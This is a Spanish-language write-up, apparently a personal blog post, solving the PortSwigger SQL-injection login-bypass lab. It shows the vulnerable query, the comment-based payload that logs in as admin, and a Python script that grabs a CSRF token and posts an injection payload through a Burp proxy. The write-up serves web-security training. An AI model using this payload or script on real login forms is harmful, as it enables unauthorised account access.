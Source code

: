 ```yaml
---
title: "02 Write-up: SQL injection vulnerability allowing login bypass"
collection: publications
category: portswigger
permalink: /publications/SQLi/02_SQL_injection_vulnerability_allowing_login_bypass
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión. Para resolver el laboratorio, realizamos un ataque de inyección SQL que elude la autenticación y nos permite iniciar sesión en la aplicación como usuario administrador.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection vulnerability allowing login bypass'
---
```


![logo]({{site.url}}/images/SQLi/sqli-2/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-login-bypass>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-2/descripcion.png)

## Analisis del entorno
Insertamos la comilla simple `'` en el campo de usuario y en el campo de password `password`. 

![Pruebas]({{site.url}}/images/SQLi/sqli-2/Prueba_1.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a:

```sql
SELECT * FROM users WHERE username = ''' AND password = 'password'
```

El backend trata de realizar la consulta previamente resalizada y nos arroja un error ya que es un error de sintaxis.

![Error]({{site.url}}/images/SQLi/sqli-2/error.png)

Necesitamos acomodar esta consulta para que pueda funcionar. Vamos a realizar la consulta para un usuario y comentamos la demas sentencia, quedaria algo asi:

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password'
```

![Login_1]({{site.url}}/images/SQLi/sqli-2/login_1.png)

Si el usuario `admin` no existe nos arrojara un error y se muestra en pantalla, toca ingresar un usuario valido.

![Error_2]({{site.url}}/images/SQLi/sqli-2/error 2.png)

Probamos con un usuario valido y vemos que nos hace la redirección y solventa el laboratorio

![Login_2]({{site.url}}/images/SQLi/sqli-2/login_2.png)

Lo que envia Burpsuite es en url encode:

![Envio de dato]({{site.url}}/images/SQLi/sqli-2/Respuesta desde Burpsuite.png)

Aprobado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-2/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    print(csrf)
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf":csrf,
            "username": payload,
            "password": "randomtext"
            }
    r = s.post(url, data=data, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        return True
    else:
        return False


if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
        sqli_payload =  sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])

    s = requests.Session()

    if exploit_sqli(s, url, sqli_payload):
        print('[+] SQL injection succesfull! We have logged in as the administrator user.')
    else:
        print('[-] SQL injection unsuccesful.')
```
